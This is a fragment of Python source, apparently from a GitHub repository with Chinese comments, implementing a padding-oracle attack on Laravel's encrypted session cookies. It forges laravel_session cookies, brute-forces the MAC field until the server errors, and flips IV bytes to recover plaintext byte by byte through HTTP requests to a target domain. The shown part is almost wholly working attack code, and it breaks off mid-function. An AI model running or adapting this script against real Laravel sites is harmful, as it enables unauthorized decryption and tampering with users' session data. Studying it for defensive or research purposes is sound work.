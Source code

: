 ```
            'value': self.ciphertext,
            'iv': bytearray('0'*32)
        }
        self.modify_cookie_mac()

    @staticmethod
    def add_padding(value):
        """
        对value进行padding
        """
        pad = LaravelOracle.block_size - (len(value) % LaravelOracle.block_size)
        return "{value}{padding}".format(value=value, padding=chr(pad)*pad)

    @staticmethod
    def format_cookie(cookie):
        """
        将易操作的cookie转换成laravel的cookie
        """
        tmp_cookie = dict()
        send_cookie = dict()

        tmp_cookie['iv'] = base64.b64encode(cookie['iv'])
        tmp_cookie['value'] = base64.b64encode(cookie['value'])
        tmp_cookie['mac'] = int(cookie['mac'])

        send_cookie['laravel_session'] = base64.b64encode(json.dumps(tmp_cookie))
        return send_cookie

    def modify_cookie_iv(self, index):
        if len(self.cv) != index:
            print("[-] Something Wrong")
            sys.exit()

        tmp_append = bytearray()
        for each_c in self.cv:
            tmp_append.append(each_c ^ (index+1))

        self.cookie['iv'] = self.cookie['iv'][0:LaravelOracle.block_size-index] + tmp_append

    def modify_cookie_mac(self):
        """
        获取正确的mac
        一个32byte的分组，只有1个正确的mac
        """
        while True:
            send_cookie = self.format_cookie(self.cookie)
            response = requests.get(self.domain, cookies=send_cookie, timeout=self.timeout)
            if response.status_code == 500:
                return True
            self.cookie['mac'] += 1

    def guess_cookie_iv_byte(self, index, value):
        """
        猜测一个字节的IV
        """

        self.cookie['iv'][LaravelOracle.block_size-index-1] = value
        send_cookie = self.format_cookie(self.cookie)
        response = requests.get(self.domain, cookies=send_cookie, timeout=self.timeout)

        re_result = self.re_pattern.findall(response.content)
        if not re_result:
            if index != 31:
```